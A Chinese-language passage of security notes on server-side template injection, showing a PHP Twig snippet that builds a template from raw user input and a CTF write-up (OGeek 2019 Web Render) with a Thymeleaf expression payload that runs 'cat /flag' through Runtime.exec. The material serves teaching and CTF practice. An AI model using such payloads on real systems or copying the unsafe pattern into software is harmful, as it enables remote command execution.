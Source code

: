 ```php
<?php
require_once dirname(__FILE__).'/../lib/Twig/Autoloader.php';
Twig_Autoloader::register(true);
 
$twig = new Twig_Environment(new Twig_Loader_String());
$output = $twig->render("Hello {$_GET['name']}");  // 将用户输入作为模版内容的一部分
echo $output;
```

上面这段代码代码在进行模板构建时，拼接了用户输入作为模板的内容，这里如果再向服务端直接传递恶意代码，用户输入将会原样输出。

- 例 OGeek 2019 Web Render

经 fuzz 发现模板引擎为 Thymeleaf，通过 Js 发送 Post 请求，传递 Json 数据给服务端进行模板构建，Thymeleaf 支持在 js 中直接获取 Model 中的变量，格式为 \[\[${name}\]\]，提交 `[[${1+1}]]`时回显2，代码成功执行，Payload 如下：

```java
new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec('cat /flag').getInputStream())).readLine()
```

![](/assets/images/move/2019-08-25-22-12-25.png)
